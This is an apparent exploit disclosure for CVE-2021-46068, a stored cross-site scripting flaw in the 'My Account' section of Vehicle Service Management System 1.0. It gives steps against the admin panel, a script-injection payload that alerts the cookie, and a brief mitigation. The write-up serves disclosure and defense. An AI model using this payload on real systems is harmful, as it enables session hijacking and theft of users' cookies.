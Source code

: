 # CVE-2021-46068

### Exploit Title: Vehicle Service Management System - 'MyAccount' Stored Cross Site Scripting (XSS)
### Exploit Author: <a href="https://www.plsanu.com">P.L.Sanu</a>
### CVE: CVE-2021-46068
### CVSS: 4.8 MEDIUM
### Reference: 
- https://www.plsanu.com/vehicle-service-management-system-myaccount-stored-cross-site-scripting-xss
- https://nvd.nist.gov/vuln/detail/CVE-2021-46068
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-46068

### Description:
A Stored Cross Site Scripting (XSS) vulnerability exists in Vehicle Service Management System 1.0 via the My Account Section in login panel.

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to My Account section http://localhost/vehicle_service/admin/?page=user
3. Inject the below payload in First Name & Last Name input field.

### Payload:
```html
"><script>alert(document.cookie)</script>
```

5. Click on update button.
6. Malicious javascript code triggered.

### Impact:
An attacker can able to inject malicious JavaScript code in My Account Section.

### Mitigation:
It is recommended to sanitize all the input fields throughout the application.
